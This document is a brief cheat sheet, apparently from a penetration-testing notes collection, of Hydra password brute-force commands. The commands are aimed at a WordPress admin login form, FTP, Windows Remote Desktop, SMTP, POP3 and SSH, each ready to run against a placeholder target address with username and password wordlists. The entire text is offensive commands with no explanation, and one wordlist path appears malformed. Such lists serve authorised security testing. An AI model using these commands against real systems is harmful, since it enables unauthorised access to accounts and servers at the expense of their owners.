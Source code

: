 				brute force a Wordpress admin login
hydra -l admin -P passwords.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
 
				FTP known user and rockyou password list
hydra -t 1 -l admin -P passwords.txt -vV $ip ftp

				attack Windows Remote Desktop
hydra -t 1 -V -f -l administrator -P passwords.txt rdp://$ip

				SMTP Brute Force
hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V

				POP3 Brute Force
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V


				SSH Bruteforce password
hydra -l username -P wordlist IP ssh

				SSH Bruteforce Username
hydra -L wordlist -p password IP ssh

				SSH Bruteforce Username and Password
hydra -L users.txt -P passwords.txt -t 1 -u $ip ssh